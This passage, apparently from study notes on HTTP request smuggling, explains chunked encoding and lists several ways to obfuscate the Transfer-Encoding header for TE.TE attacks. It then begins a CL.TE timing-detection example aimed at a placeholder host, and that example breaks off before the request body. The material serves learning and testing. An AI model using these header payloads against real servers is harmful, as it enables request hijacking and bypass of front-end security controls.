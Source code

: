 8
SMUGGLED
0
```

```
8\r\n        ← chunk size in hex = 8 bytes
SMUGGLED\r\n ← 8 bytes of data
0\r\n        ← end of chunks
\r\n         ← empty line to terminate chunked encoding

```


## TE.TE behavior: obfuscating the TE header 
The `front-end` and `back-end` servers both support the `Transfer-Encoding` header, but **one of the servers can be induced not to process** it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the Transfer-Encoding header

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

To uncover a TE.TE vulnerability, it is necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.

## Finding HTTP request smuggling vulnerabilities 
The most generally effective way to detect HTTP request smuggling vulnerabilities is to send requests that will cause a time delay in the application's responses if a vulnerability is present

### Finding CL.TE vulnerabilities using timing techniques
If the application usages Content lenght on the frontend and Transfer encoding in the backend the a request like this will cause a noticable time delay.


```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4
